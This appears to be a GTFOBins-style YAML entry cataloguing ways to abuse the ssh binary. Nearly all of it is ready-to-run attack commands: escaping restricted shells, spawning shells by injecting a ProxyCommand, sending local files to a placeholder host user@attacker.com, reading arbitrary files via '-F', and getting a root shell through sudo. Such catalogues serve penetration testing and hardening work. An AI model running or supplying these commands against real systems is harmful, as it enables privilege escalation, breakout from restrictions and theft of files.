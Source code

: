 ```yaml
---
functions:
  shell:
    - description: Reconnecting may help bypassing restricted shells.
      code: ssh localhost $SHELL --noprofile --norc
    - description: Connecting a different way may help bypassing restricted shells.
      code: ssh localhost -t "bash --noprofile"
    - description: Spawn interactive shell through ProxyCommand option.
      code: ssh -o ProxyCommand=';sh 0<&2 1>&2' x
    - description: Spawn interactive shell on client, requires a successful connection towards `host`.
      code: ssh -o PermitLocalCommand=yes -o LocalCommand=/bin/sh host
  file-upload:
    - description: Send local file to a SSH server.
      code: |
        HOST=user@attacker.com
        RPATH=file_to_save
        LPATH=file_to_send
        ssh $HOST "cat > $RPATH" < $LPATH
  file-download:
    - description: Fetch a remote file from a SSH server.
      code: |
        HOST=user@attacker.com
        RPATH=file_to_get
        LPATH=file_to_save
        ssh $HOST "cat $RPATH" > $LPATH
  file-read:
    - description: The read file content is corrupted by error prints.
      code: |
        LFILE=file_to_read
        ssh -F $LFILE localhost
  sudo:
    - description: Spawn interactive root shell through ProxyCommand option.
      code: sudo ssh -o ProxyCommand=';sh 0<&2 1>&2' x
---
```

